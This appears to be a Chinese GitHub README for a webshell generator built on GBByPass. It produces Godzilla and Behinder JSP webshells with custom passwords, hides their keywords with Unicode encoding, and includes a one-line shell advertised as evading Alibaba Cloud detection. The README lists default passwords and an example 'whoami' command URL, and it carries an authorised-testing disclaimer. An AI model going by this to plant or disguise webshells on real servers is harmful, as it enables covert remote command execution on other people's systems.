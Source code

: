 >在 GBByPass 的基础上增加了自定义冰蝎和一句话密码的功能
https://github.com/czz1233/GBByPass


```
*************************警 告*****************************
本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!
***********************************************************

1、Godzilla java_aes_raw 连接默认密码为: 1
2、Behinder默认密码为: baihua666
3、生成绕不过阿里云检测 http://XXX:8080/xxx.jsp?baihua666=whoami

[*] 输入密码或回车(使用默认值): P#xdd5d
[*] 一句话、冰蝎, 密码为: P#xdd5d

[+] 输入 '1' 生成Godzilla;
[+] 输入 '2' 生成Behinder;
[+] 输入 '3' 生成绕不过阿里云检测一句话：
2
[*] 生成中... 密码： P#xdd5d
[+] Succussfully
```


# GBByPass
冰蝎 哥斯拉 webshell bypass 原理通过Unicode编码绕过关键字



## Stargazers over time

[![Stargazers over time](https://starchart.cc/h0nayuzu/WebshellBypass.svg)](https://starchart.cc/h0nayuzu/WebshellBypass)